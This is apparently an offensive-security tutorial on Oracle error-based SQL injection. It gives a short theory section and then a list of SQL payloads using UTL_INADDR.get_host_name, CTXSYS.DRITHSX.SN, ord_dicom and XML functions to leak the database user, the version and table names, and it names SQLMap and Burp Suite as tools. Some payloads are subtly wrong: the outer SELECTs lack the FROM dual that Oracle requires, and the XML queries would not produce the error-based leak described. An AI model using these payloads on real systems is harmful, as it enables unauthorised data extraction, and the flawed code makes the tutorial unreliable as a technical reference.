 ```yaml
---
title: Mastering Oracle Error-Based SQL Injection
description: Learn to exploit Oracle SQL's error-based injection for extracting sensitive
  data.
keywords:
- Oracle
- Error-Based SQL Injection
- Database Error Messages
- UTL_INADDR.get_host_name
- CTXSYS.DRITHSX.SN
---
```


# Oracle Error Based

## Context

The objective of this article is to teach how to exploit Oracle SQL error-based injection to extract sensitive information from a database. This assumes familiarity with Oracle database architecture, SQL query execution, and error handling in SQL.

## Theory

### Error-Based SQL Injection in Oracle

Error-based SQL injection is a technique that exploits the information revealed in database error messages to glean sensitive data. The vulnerability model relies on the fact that these error messages can inadvertently expose critical information about the database's structure. The attack sequence involves injecting specially crafted SQL payloads that cause the database to generate errors. These errors are then analyzed to infer database attributes such as table names and column types.

### Common Oracle Error Functions and Techniques

Certain Oracle functions can be leveraged in error-based SQL injection attacks. Functions like `UTL_INADDR.get_host_name` and `CTXSYS.DRITHSX.SN` can be exploited to trigger errors that, due to the way they handle errors, may reveal information about the database.

For instance, using these functions in payloads often results in error messages that include data about the database's environment. This technique is especially powerful because it allows an attacker to use these built-in functions to create informative error messages without needing to exfiltrate data through normal channels.

### Oracle Error Messages and Information Disclosure

Oracle error messages, such as ORA- errors, can provide substantial information about the database schema, even if only limited data is directly visible. The vulnerability model here hinges on how extensive and descriptive these error messages can be, often including data that reveals structural insights.

For effective exploitation, an attacker crafts SQL payloads intended to invoke specific errors. These errors might disclose details like the current user, table and column names, or even version information. Such exploitation of informative error messages can provide an attacker with a clear picture of the backend database.

## Practice

### Exploiting Oracle Error-Based SQL Injection

To exploit Oracle error-based SQL injection, the following steps are undertaken. Each step involves the injection of SQL queries designed to provoke error messages which in turn reveal sensitive database information.

- **Retrieve Current Database User:**

    ```bash
    SELECT UTL_INADDR.get_host_name((SELECT user FROM dual));
    ```

    This command triggers an error that can reveal the current database user through the error message.

- **Determine Oracle Version Information:**

    ```bash
    SELECT CTXSYS.DRITHSX.SN(1, (SELECT banner FROM v$version WHERE rownum=1));
    ```

    This induces an error message that leaks information regarding the Oracle version in use.

- **Disclose a Table Name:**

    ```bash
    SELECT ord_dicom.getmappingxpath((SELECT table_name FROM all_tables WHERE rownum=1));
    ```

    By executing this, an attacker can generate an error disclosing the name of an existing table.

- **Infer Database Structure via XML Error:**

    ```bash
    SELECT dbms_xmlgen.getxml('SELECT * FROM dual WHERE 1=0');
    ```

    This payload uses XML error generation to reveal details about the database structure.

- **Reveal Table Names Using XML Functions:**

    ```bash
    SELECT extract(xmlagg(xmlelement(e,table_name)), '/ROWSET/ROW/E') FROM all_tables WHERE rownum=1;
    ```

    The goal of this command is to utilize XML functions to craft an error message that includes table names.

By following these steps, sensitive data can be extracted from Oracle databases by leveraging Oracle SQL's error-based injection points.

## Tools

- **SQLMap**
- **Burp Suite**
- **Oracle SQL Developer**